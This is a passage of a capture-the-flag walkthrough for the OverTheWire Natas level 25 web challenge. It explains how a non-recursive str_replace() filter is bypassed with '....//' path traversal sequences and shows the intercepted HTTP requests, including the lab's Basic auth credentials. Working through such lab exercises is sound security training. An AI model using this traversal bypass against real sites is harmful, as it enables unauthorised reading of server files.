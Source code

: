 ```php
</form>
</div>
<?php
	session_start();
	setLanguage();
	echo "<h2>$__GREETING</h2>";
	echo "<p align=\"justify\">$__MSG";
	echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```
- Going through the code, we can see that we need to do a file inclusion in order to obtain the password for the next level
- However, the file inclusion is 'kind-of' suppressed due to the checks present in the `safeinclude()` function, so we need to do two things over here:
	1. Bypass the directory traversal check
	2. Bypass the check that prevents the file `natas_webpass` from being included
- Initially I was struggling to bypass the directory traversal check, however, going through the docs of `str_replace()` function in the PHP manual and its caveats, I realised that the function possesses a unique property: It doesn't replaces the strings specified recursively.
- How does it help us? Well, let me explain with an example:
	- The `str_replace()` method takes the regular expression to match (in our case it is `../`), and replaces it with the string we specify (in our case it is `""`) in the string we specify (in our case it will be the value of `$filename` variable)
	- So, if the value of `$filename` variable is `../`, it is converted to empty string
	- However, if the value of `$filename` variable is `....//`, then it is converted to `../` only. The method doesn't replace the specified string recursively. Hence, we can bypass this check.
- In order to include the desired file we want, first we need to check in which directory we are and in which directory we need to go. For this, we can fire up BurpSuite, intercept the request and its headers, and modify them like this:
```http
GET /?lang=. HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyNTpja0VMS1VXWlVmcE92NnV4UzZNN2xYQnBCc3NKWjRXcw==
Connection: keep-alive
Referer: http://natas25.natas.labs.overthewire.org/
Cookie: PHPSESSID=5o6nht5jjo40nk6lh5d05pd452
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
- We have specified the `lang` query parameter's value as `.`, that tries to include the current directory, however this fails and we get the following error in response:
```text
include(/var/www/natas/natas25/language): failed to open stream: No such file or directory
```
- This implies that we need to go up by 5 levels, which means our initial part of the payload should contain this: `../../../../../`. However, to bypass the directory traversal check, we modify it to this: `....//....//....//....//....//`
- Testing the payload again, we modify our GET request as follows:
```http
GET /?lang=....//....//....//....//....// HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Authorization: Basic bmF0YXMyNTpja0VMS1VXWlVmcE92NnV4UzZNN2xYQnBCc3NKWjRXcw==
Connection: keep-alive
Referer: http://natas25.natas.labs.overthewire.org/
```